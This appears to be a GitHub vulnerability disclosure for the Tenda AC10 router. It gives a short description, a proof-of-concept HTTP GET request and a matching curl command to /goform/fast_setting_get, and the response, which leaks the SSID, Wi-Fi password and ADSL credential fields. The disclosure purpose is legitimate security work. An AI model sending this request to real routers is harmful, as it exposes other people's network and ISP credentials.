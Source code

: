# IOT-CVE

# Details


An issue was discovered on Tenda AC1200 MV-MIMO Dual Band GB wifi Router (AC-10)  devices with firmware V15.03.06.50_multi. Privilege escalation
vulnerability in /goform/fast_setting_get allows attackers to enumrate and get Routers Default Information (ssid, password, devicemac, defmac, adsluser, adslpassword)  on the system via a crafted post request.


# Poc

GET /goform/fast_setting_get?0.7024619795874003 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: password=mibtgb
Connection: close

Curl;

curl -i -s -k -X $'GET' \
    -H $'Host: 192.168.0.1' -H $'Accept: application/json, text/javascript, */*; q=0.01' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36' -H $'X-Requested-With: XMLHttpRequest' -H $'Referer: http://192.168.0.1/index.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9' -H $'Cookie: password=mibtgb' -H $'Connection: close' \
    -b $'password=mibtgb' \
    $'http://192.168.0.1/goform/fast_setting_get?0.7024619795874003';



# Response


HTTP/1.1 200 OK
Content-type: text/plain; charset=utf-8
Pragma: no-cache
Cache-Control: no-cache


{"line":0,"wanType":-1,"net":0,"outType":1,"timeout":"0","lanIp":"192.168.0.1","lanMask":"255.255.255.0","adslUser":"","adslPwd":"","ssid":"Tenda_B38C40","wrlPassword":"DEFAULTPASSWORD","country":"US","power":"high","cloneType":"0","mac":"","deviceMac":"RETACTED","defMac":"RETACTED"}


## Acknowledgment

Pankaj Kumar Thakur (@nep_1337_1998) from Nepal
